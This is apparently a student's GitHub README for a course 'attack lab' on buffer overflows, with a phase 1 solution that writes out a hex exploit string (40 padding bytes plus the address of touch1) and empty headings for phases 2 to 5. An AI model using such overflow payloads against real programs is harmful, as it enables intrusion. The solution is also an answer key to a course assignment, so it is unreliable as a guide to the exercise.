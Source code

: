 # attack_lab
see assignment details at attacklab.pdf

## phase 1 solution
```
// 40 bytes
11 11 11 11 11 11 11 11 11 11
11 11 11 11 11 11 11 11 11 11
11 11 11 11 11 11 11 11 11 11
11 11 11 11 11 11 11 11 11 11
// address of touch1 (8 bytes)
74 16 40 00 00 00 00 00
```

## phase 2 solution

## phase 3 solution

## phase 4 solution

## phase 5 solution
